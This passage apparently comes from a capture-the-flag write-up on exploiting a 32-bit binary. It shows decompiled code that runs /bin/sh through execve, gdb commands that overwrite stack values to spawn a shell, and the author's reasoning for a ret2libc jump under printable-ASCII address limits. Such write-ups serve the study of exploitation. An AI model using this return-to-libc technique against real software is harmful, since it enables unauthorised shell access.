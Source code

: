 ```c
  }
  v5 = alloca(4 * i + 23);
  executable = "/bin/sh";
  local_argv[0] = "/bin/sh";
  local_argv[1] = local_command;
  if ( i )
  {
    do
    {
      local_argv[j] = *(const char **)(argv + 4 * j - 4);
      --j;
    }
    while ( j != 1 );
    executable = local_argv[0];
  }
  return execve(executable, local_argv, local_envp);// pathname, argv, envp
}
```

we got a function that executes a command in bash.

let's check if when running `execve` in `gdb` we get a shell.
```text
b *0x55636b6c
set {int}0xffffcb7c = 0x55636b6c
set {int}0xffffcb80 = 0x556bb7ec
set {int}0xffffcb84 = 0
set {int}0xffffcb88 = 0
```
[helped](https://stackoverflow.com/questions/30149779/c-execve-parameters-spawn-a-shell-example)
```asm
.text:000D8B6C mov     [esp+4], esi    ; command
.text:000D8B70 mov     [esp], edi      ; exe
.text:000D8B73 mov     [esp+8], ecx    ; env
.text:000D8B77 call    execve
```
we spawned a shell! now that we know that just calling the `execve` would be fine, I need to find a way that the stack would look good. 
I got a bad feeling about this ret.

## The thought process
1. we must use `ret2libc` 
2. most `ret2libc` is about openings a shell using `system`
3. but system location in memory is not printable ascii so 
	1. I jump to another place
	2. I modify partly the RA `0x8048600` -> doesn't work we need the second byte to be close to `0xcc` which it isn't
4. the core of system is `execve` which if being called will execute a shell.
5. so searching valid addresses that uses `execve` and puts the pointer to `/bin/sh` on the stack

### The Idea
I will jump to the function and see what problems I need to solve in order that we will spawn a shell.
```text
b *0x8048532
set {int}0xffffcb7c = 0x55636b45
```
